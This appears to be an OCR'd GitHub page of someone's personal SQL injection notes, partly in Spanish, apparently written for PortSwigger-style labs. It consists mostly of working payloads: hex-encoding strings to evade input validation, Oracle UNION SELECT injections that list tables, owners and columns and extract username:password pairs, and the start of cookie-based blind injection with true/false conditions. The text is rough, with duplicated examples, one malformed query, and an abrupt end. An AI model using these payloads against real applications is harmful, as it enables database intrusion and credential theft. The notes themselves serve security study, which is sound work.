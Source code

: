 
(note: sometimes you cannot put ':' or strings in a query, but you can put in hexadecimal characters) more info:
https://portswigger.net/web-security/sql-injection/cheat-sheet

Example

Elimina primero el salto de linea con
```
echo "admin" | tr -d '\n'
```
Pasalo a hexadecimal
```
echo "admin" | tr -d '\n' | xxd -ps
```
Sometimes we need to do this for evading validations.


# ON ORACLE, ALL WAYS REMEMBER the statement "FROM dual" #

As we start on other works
```
' union select null,null from dual--
```
Showing the tables of all databases
```
'union select null,table_name from all_tables
```
You can search by owner of databases
```
'union select null,owner from all_tables
```
And filter tables of owners
```
'union select null,table_name from all_tables where owner='PETER'
```
NOW FILTER THE COLUMNS
```
'union select null,column_name from all_tab_columns where table_name= 'USERS_FVLTGD'
```
NOW FILTER THE DATA
```
'union select null,USERNAME_ASD||':'||PASSWORD_ASDWQ from 'USERS_FVLTGD'
```


# BLIND SQL INJECTION WITH CONDITIONAL RESPONSES #

This works on the cookie, in the case of the example..

When we have a right response "Welcome back" stills existing, otherwise it disappears
```
select * from products where trackingId='fwkefo39i' and 1=1-- -' 
```
or 1=1-- -
```
select * from products where trackingId='fwkefo39i' and 1=1-- -' 
```
you can do another thing...

